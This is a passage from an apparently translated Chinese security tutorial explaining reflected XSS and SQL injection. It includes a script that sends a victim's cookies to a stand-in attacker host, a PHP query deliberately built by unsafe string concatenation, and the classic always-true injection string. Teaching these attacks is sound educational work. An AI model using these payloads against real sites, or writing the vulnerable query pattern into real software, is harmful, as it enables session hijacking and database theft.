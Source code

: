第二种类型的 XSS 攻击称为反射攻击。利用反射攻击，攻击者创建一个 URL，并在 URL 中嵌入脚本，调用易受 XSS 攻击的页面。对于这种攻击，攻击者需要用包含脚本的参数创建 URL，然后将其发送给用户。这可以通过在基于 HTML 的消息中使用附加脚本来隐藏实际 URL 的电子邮件来完成。因为额外的参数和脚本可能会泄露它。

攻击本身非常简单。您提供了一组 HTML 标记，表明您有一个脚本。当它出现在 Web 浏览器中时，浏览器会看到脚本标签并运行标签中的内容。一个非常简单的例子是:

```
<script>alert('this page is vulnerable to XSS');</script>

```

这不是很有趣，因为它所做的只是弹出一个对话框，说“该页面易受 XSS 攻击”，这肯定会提醒用户发生了一些事情。更有趣的是编写从用户那里窃取信息的 Javascript。由于来自第三方的页面不应该能够窃取代表其他站点存储的信息，您可以使用 XSS 攻击来收集这些信息，然后将其传输到另一个站点，攻击者稍后可以在那里收集这些信息。这方面的一个例子是这样的:

```
<script>document.write('<img src="http://my.badsite.com/goodsite.php?cookie=' + document.cookie + '" />')</script>

```

这个小攻击使用`document.cookie`从页面获取 cookie，并将其嵌入到一个 URL 中。URL 位于图像标签中，这意味着浏览器将向该 URL 发送请求。URL 甚至不必存在，因为请求将被放入日志中，稍后可以解析该日志以获取 cookies 和 IP 地址。在多个站点受到攻击的情况下，对`goodsite.php`的引用可以指示 cookie 来自哪个站点。当然，使用这种技术也有可能窃取其他信息。

像在`document.write`或`document.cookie`中一样，使用`document`后跟一个方法或属性，这就是文档对象模型(DOM)。DOM 是一种将 Web 页面转换成可以使用 document 对象访问的对象集合的方法。此外，文档有类似于`write`的方法，可以访问这些方法来对文档执行操作。在我们的例子中，我们从该脚本所在的文档中收集 cookie，并使用`write`方法将 cookie 放入 URL，这将最终将 cookie 发送到恶意服务器。

XSS 攻击源于未正确验证的输入。在大多数情况下，没有理由接受 HTML 标签作为输入。事实上，在大多数情况下，你不需要接受任何一个< or >作为输入。因此，Web 应用程序程序员应该对输入进行适当的调整，以确保这些类型的字符不被原样接受，而是被转换为更安全的选项，如 HTML 变体`&lt;`和`&gt;`，它们让浏览器呈现小于和大于字符，而不实际使用这些字符，因为它们可能被解释为试图创建 HTML 标记。

### SQL 注入

SQL 注入攻击是针对数据库服务器的攻击，攻击者将代码传递到数据库中，由数据库服务器本身直接执行。结构化查询语言(SQL)代码被插入到网页上的表单中，SQL 被一路传递回数据库，并在那里执行。为了了解这种特定的攻击是如何工作的，让我们来看看一些非常简单的代码，这些代码旨在获取用户列表，其中字段`username`等于传递给这段特定代码的值:

```
$query = "SELECT * FROM users WHERE username = '" + $username "';";
$result = mysql_query($query);

```

正常情况下，剧本会把弗雷德、伍布尔、珍妮特、阿提克斯或佐伊作为例子。如果您提供用户名，您将获得与您提供的用户名相关的所有信息。相反，如果您提供一段 SQL 来改变查询，就像下面这样，您将得到完全不同的结果:

```
' OR '1' = '1

```

一旦用变量进行了所有替换，您最终得到的是一段如下所示的 SQL:

```
SELECT * FROM users WHERE username = '' or '1' = '1';

```

该查询的重要部分是`'1' = '1'`部分，因为`OR`告诉 SQL 评估所有行以确定整个语句的真实性。我们可能永远不会遇到用户名为空(`''`)的情况，但是`'1'`将总是等于`'1',`，所以数据库中的每一行对于这样的语句都是真的。因此，根据脚本的结果部分是如何创建的，您可能会得到一个完整的`users`表转储。
